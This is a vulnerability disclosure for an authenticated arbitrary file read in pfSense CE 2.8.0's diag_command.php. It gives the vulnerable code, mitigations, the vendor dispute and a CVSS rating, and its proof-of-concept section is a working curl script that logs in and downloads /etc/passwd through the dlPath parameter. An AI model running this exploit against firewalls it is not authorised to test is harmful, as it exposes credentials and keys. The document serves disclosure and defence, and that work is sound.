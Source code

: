 # Arbitrary File Read in pfSense 2.8.0 via Diagnostics Web Interface

#### CVE ID: *Pending*

#### Date: 2025-06-27

#### Author: Seth Kraft

#### Vendor Homepage: [https://www.netgate.com/](https://www.netgate.com/)

#### Vendor Changelog: [https://docs.netgate.com/pfsense/en/latest/releases/](https://docs.netgate.com/pfsense/en/latest/releases/)

#### Software Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### Version: pfSense CE 2.8.0 (latest stable as of June 26, 2025)

#### CWE: CWE-552 (Files or Directories Accessible to External Parties)

#### Estimated CVSS Base Score: 6.5 (Medium)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`

#### Type: Authenticated Arbitrary File Read / Local File Disclosure

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

pfSense CE 2.8.0 contains a Local File Disclosure vulnerability in the diagnostics page `diag_command.php`, which allows authenticated users to download arbitrary files from the underlying file system.

An attacker with privileged web access can supply an arbitrary path in the `dlPath` parameter to exfiltrate sensitive files. 

This functionality lacks any path sanitization, directory restriction, or access controls beyond permission assignment.

---

## Details

The vulnerable logic is located in the file `src/usr/local/www/diag_command.php`:

```php
if ($_POST['submit'] == "DOWNLOAD" && file_exists($_POST['dlPath'])) {
    session_cache_limiter('public');
    send_user_download('file', $_POST['dlPath']);
}
```

There are no security checks or sanitization measures applied to the user-controlled `dlPath` parameter. 

Any file path the PHP process can read will be served back to the user.

---

## Proof of Concept

**Create `low-priv` group and assign a single privilege** (`WebCfg - Diagnostics: Command`)
![Screenshot 2025-06-27 133201](https://github.com/user-attachments/assets/b1063a5c-442a-4628-ac94-e0fa5d6f10c4)

> I appreciate the built-in security warning related to assigning the `WebCfg - Diagnostics: Command` privilege. But this disclaimer does not constitute as proper access control.
>
> A permission in a web interface should be scoped based on its label and intended use — not assumed to equate to root-level access on the underlying operating system.

**Assign `low-priv` group to** `dev` **user**
![Screenshot 2025-06-27 133218](https://github.com/user-attachments/assets/7224934e-ae31-4aa1-b879-b4f1aee7e00c)

This proof-of-concept demonstrates a user assigned with only `WebCfg - Diagnostics: Command` permission can exfiltrate `/etc/passwd` by abusing the unsanitized `dlPath` parameter.

```bash
# 1. Start session and extract CSRF token
curl -k -c cookies.txt -s https://<IP>/diag_command.php > login_page.html
csrf_token=$(grep '__csrf_magic' login_page.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 2. Authenticate as low-privileged user "dev"
curl -k -b cookies.txt -c cookies.txt \
  -d "__csrf_magic=$csrf_token" \
  -d "usernamefld=dev" \
  -d "passwordfld=pass" \
  -d "login=Sign+In" \
  https://<IP>/index.php > /dev/null

# 3. Get CSRF token post-login
curl -k -b cookies.txt -s https://<IP>/diag_command.php > diag_authed.html
csrf_token=$(grep '__csrf_magic' diag_authed.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 4. Exfiltrate arbitrary file (example: /etc/passwd)
curl -k -b cookies.txt -s -X POST https://<IP>/diag_command.php \
  -d "__csrf_magic=$csrf_token" \
  -d "submit=DOWNLOAD" \
  -d "dlPath=/etc/passwd"
```

---

## Demo
![pfSense-authenticated-file-disclosure-poc](https://github.com/user-attachments/assets/0dfe9727-aab4-4b17-bcb9-5a69998549a5)

---

## Impact

Any pfSense user assigned the `WebCfg - Diagnostics: Command` privilege can:

* Read sensitive local system files
* Extract backups, credentials, and keys
* Access files far beyond their intended permissions

This violates the principle of least privilege and breaks logical privilege boundaries.

---

## Suggested Mitigation

1. Restrict `dlPath` to a safe base directory (e.g., `/tmp`) using `realpath()` and prefix enforcement
2. Strip or block paths with `..` or absolute paths
3. Only allow downloads of files in a safelist or temporary artifact directory

---

## Disclosure Timeline

* **2025-06-26:** Vulnerability reported to Netgate
* **2025-06-27:** Netgate responded — dismissing the issue as intended behavior
* **2025-06-27:** Researcher responded with technical rebuttal — vendor reiterated dismissal
* **2025-06-27:** Researcher initiated public disclosure due to final vendor dismissal — requested CVE assignment from MITRE

![Screenshot 2025-06-28 122505](https://github.com/user-attachments/assets/6b0cfc68-fd06-4d53-8e12-11b777e8e29e)

![image](https://github.com/user-attachments/assets/8317dd1d-95c7-4000-a942-f9435d40cfa8)

> While the vendor asserts that access to this page equates to root, this conflates web-level permissions with unrestricted backend access.
>
> Privilege should be technically enforced — not assumed — and warnings in the UI are no substitute for secure design.

The diagnostics module in the web interface of a firewall should include proper safeguards to prevent abuse against the underlying operating system.

* Diagnostic commands should be functionally limited to ping, traceroute, log view, etc.
* Commands should run inside a restricted shell or chroot.
* File access should be explicitly scoped to safe directories (/tmp, /var/log).
* Permissions should be fine-grained, and clear in scope.

---

## Estimated CVSS Breakdown

| Metric                      | Value         | Justification                                          |
| --------------------------- | ------------- | ------------------------------------------------------ |
| **AV: Attack Vector**       | N (Network)   | Exploitable via the pfSense web interface over HTTPS   |
| **AC: Attack Complexity**   | L (Low)       | Straightforward POST request with valid CSRF token     |
| **PR: Privileges Required** | L (Low)       | Requires only `WebCfg - Diagnostics: Command` permission |
| **UI: User Interaction**    | N (None)      | No additional interaction needed                       |
| **S: Scope**                | U (Unchanged) | Same component boundary (web app reads system file)    |
| **C: Confidentiality**      | H (High)      | Arbitrary file read, including credentials and configs |
| **I: Integrity**            | N (None)      | No tampering                                           |
| **A: Availability**         | N (None)      | No denial-of-service                                   |

> Note: I selected `PR: Low` since the exploit only requires a narrowly scoped permission (`WebCfg - Diagnostics: Command`) and did not explicitly grant the user full admin permissions.

**Estimated CVSS Base Score: 6.5 (Medium)**
